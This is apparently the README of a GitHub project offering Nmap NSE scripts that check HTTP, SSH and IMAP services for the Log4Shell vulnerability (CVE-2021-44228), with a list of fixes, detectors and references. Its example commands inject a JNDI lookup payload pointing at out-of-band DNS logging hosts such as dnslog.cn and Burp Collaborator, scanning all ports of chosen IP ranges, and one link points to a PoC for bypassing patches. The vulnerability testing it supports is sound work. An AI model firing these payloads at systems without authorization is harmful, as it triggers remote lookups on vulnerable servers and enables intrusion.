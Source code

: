 # nse-log4shell

Nmap NSE scripts to check against log4shell or LogJam vulnerabilities (CVE-2021-44228).
NSE scripts check most popular exposed services on the Internet. It is basic script where you can customize payload.


### Examples

Note that NSE scripts will only issue the requests to the services. Nmap will not report vulnerable hosts, but you have to check DNS logs to determine vulnerability.
Also note that DNS resolution with prefixes combination in a expression for log4j-core <= 2.7 seems not supported. So, testing with something like ```${java:os}``` could lead to false negatives.
Therefore, better to have few false positives than negatives.

Windows Example (Thanks to @ZedFuzz) - note how to [escape the quotes](https://nmap.org/book/nse-usage.html#nse-args):
```
nmap -v --script=http-log4shell,ssh-log4shell,imap-log4shell "--script-args=log4shell.payload=\"${jndi:ldap://{{target}}.xxxx.dnslog.cn}\"" -T4 -n -p22,80 --script-timeout=1m scanme.nmap.org
```

### By help of logdns (custom DNS logging server)

Go to http://github.com/kost/logdns and get DNS server. Get domain and point to the somewhere where you have installed logdns:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.logdns.xxx}"' -T4 -n -p0-65535 --script-timeout=1m MY.IPs.TO.SCAN
```
### By help of dnslog.cn

Go to http://dnslog.cn/ and Get SubDomain. Replace your xxxx with your SubDomain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.dnslog.cn}"' -T4 -n -p0-65535 --script-timeout=1m MY.IPs.TO.SCAN
```

### By help of burpcollaborator

Take your domain from Burp collaborator and replace xxxx with your domain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.burpcollaborator.net/diverto}"' -T4 -n -p0-65535 --script-timeout=1m MY.IPs.TO.SCAN
```

# Solution/Fixes

List of best fixes and workarounds.

## Best fix

Best solution to protect from CVE-2021-44228:
Start your server with log4j2.formatMsgNoLookups set to true, or update to log4j-2.15.0-rc1 or later.

# References

General references and links to the vulnerability

## General

[Reddit thread](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/) - General information about log4shell

[NCC log4shell](https://github.com/NCSC-NL/log4shell) - operational information regarding the vulnerability (IOCs, mitigation, scanning, software)

## Related

[BlueTeam CheatSheet Log4Shell](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592) - Security Advisories / Bulletins linked to Log4Shell (CVE-2021-44228)

[Software List - cheat-sheet reference guide](https://www.techsolvency.com/story-so-far/cve-2021-44228-log4j-log4shell/) - Affected software list by vendor responses

## Testing

[lo4shell.huntress.com](https://log4shell.huntress.com/) - Online Log4Shell Vulnerability Tester

[log4j yara](https://github.com/timb-machine/log4j) - yara rules for local detection

[identify-log4j-class-location.sh](https://gist.github.com/righettod/ce1570954242de2f8772c6f25eece77d) - Script to identify Log4J affected class for CVE-2021-44228 in a collection of ear/war/jar files

## Exploitation

[PoC-log4j-bypass-words](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words) - A trick to bypass words blocking patches

## Exploitation Detection

[log4shell-detector](https://github.com/Neo23x0/log4shell-detector) - Detector for Log4Shell exploitation attempts

[Log4Shell-IOCs](https://github.com/curated-intel/Log4Shell-IOCs) - a list of IOC feeds and threat reports

[log4j_rce_detection.md](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b) - You can use these commands and rules to search for exploitation attempts 

## Mitigation/Fixing

[log4j advisory](https://logging.apache.org/log4j/2.x/security.html) - Apache Log4j Security Vulnerabilities

[log4j pull request and comments](https://github.com/apache/logging-log4j2/pull/608) - pull request that fixes bug with comments

[Logout4Shell](https://github.com/Cybereason/Logout4Shell) - Quick and dirty alternative to patching manually

